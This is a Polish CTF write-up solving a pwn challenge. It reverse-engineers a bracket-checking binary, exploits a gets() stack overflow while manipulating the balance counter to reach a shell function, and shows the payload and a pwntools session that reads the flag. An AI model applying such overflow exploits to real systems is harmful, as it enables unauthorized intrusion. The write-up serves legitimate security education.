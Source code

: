 # Nawias się musi zgadzać (pwn)
## Pts: 150

```
W ramach programu Nowoczesne Państwo uruchomiliśmy w klastrze cyberbezpieczeństwa usługę pozwalającą sprawdzić czy wyrażenie jest poprawnie onawiasowane. Sprawdź czy Twoje wyrażenia są poprawnie onawiasowane, i nie próbuj się włamywać, bo i tak Ci się to nie uda!

Program jest do pobrania stąd.

nc pwning2016.p4.team 1337

Format flagi: pwn{litery_cyfry_i_znaki_specjalne}
```
Dostajemy zapakowaną binarkę `brackets`

```
$ file brackets
brackets: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1a898791e079253916e3678874d6f13bd0054743, not stripped
```

Szybkie testowe uruchomienie:
```
$ ./brackets
Enter expression to check:
((()))))))))
Missing opening bracket!
```

Jak widać zachowuje się tak, jak się spodziewaliśmy. Szybkie wrzucenie w IDA pokazuje dość prosty schemat najbardziej interesującej funkcji:

![overview](img/graph%20overview.png)

```assembly
public check_my_brackets
check_my_brackets proc near

var_80= byte ptr -80h
var_10= qword ptr -10h
var_4= dword ptr -4

push    rbp
mov     rbp, rsp
add     rsp, 0FFFFFFFFFFFFFF80h
mov     [rbp+var_4], 0
lea     rax, [rbp+var_80]
mov     rdi, rax
mov     eax, 0
call    _gets
lea     rax, [rbp+var_80]
mov     [rbp+var_10], rax
jmp     short loc_40069F
```

Natychmiastowo uwagę przykuwa użycie niebezpiecznej funkcji `gets`. Można się spodziewać że mamy doprowadzić do przepełnienia bufora i nadpisania adresu powrotu. Jeżeli chodzi o cel przekierowania wykonania, to twórcy zostawili nam miły prezent w postaci funkcji `shell_me` która spawnuje nam shella. Sprawdźmy więc adresy obecnej i docelowej funkcji.

```
$ readelf -s brackets

Symbol table '.symtab' contains 72 entries:
   Num:    Value          Size Type    Bind   Vis      Ndx Name
...
    48: 0000000000400638   143 FUNC    GLOBAL DEFAULT   14 check_my_brackets
...
    54: 00000000004005f6    66 FUNC    GLOBAL DEFAULT   14 shell_me

```

Widać że są dość blisko siebie a co lepsze nie posiadają bajtów zerowych we fragmencie który musimy nadpisać (little-endian!).

Chcielibyśmy już teraz nadpisać adres powrotu ale dalsza analiza pokazuje że to nie zadziała. Zwróćmy uwagę na to w jaki sposób kończy się nasza funkcja.

![exits](img/exits.png)

Tylko poprawne zakończenie (skrajnie prawy blok) algorytmu prowadzi do powrotu, w przeciwnym razie uruchamiany jest `exit` więc podmiana adresu nic nie da. Problemem jest 32-bitowa zmienna `var_4` która reprezentuje bilans nawiasów otwierających i zamykających. Żeby algorytm stwierdził że nawiasowanie jest poprawne to w szczególności na końcu musi ona wynosić 0. Nie możemy po prostu wkleić bajtów zerowych w payload bo `gets` tego nie wczyta. Trik polega na tym że oprócz nadpisania surowej wartości bilans możemy jeszcze potem zmodyfikować podając nawiasy. Plan jest prosty - ustawmy bilans na `INT_MAX` i podajmy jeden nawias, żeby przekręcił się na 0.

Payload będzie miał następujący schemat
```
'(' + FF * ??? + F60540 + '\n'
```

Znak zmiany linii zostanie zamieniony na bajt zerowy, więc adres będzie się zgadzał.


Bufor jest pod adresem `rbp-128`, po drodze jest jeszcze stare `rbp` (8 bajtów) więc potrzebujemy paddingu na 136 bajty, po tym już jest adres powrotu. Zatem ostateczny payload wygląda następująco:
```
b'(' + b'\xFF'*135 + '\xF6\x05\x40'
```

Enter możemy sami wcisnąć.
Teraz czas przetestować na zdalnym serwerze.

```python
>>> from pwn import *
>>> conn = remote("pwning2016.p4.team", 1337)
>>> conn.send("(\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xf6\x05\x40")
>>> conn.interactive()
[*] Switching to interactive mode
Enter expression to check:
(^E@
whoami
brackets
ls
brackets  brackets.c  exploit.py  flag
cat flag
pwn{b1n4ry_expl01t1ng}
```
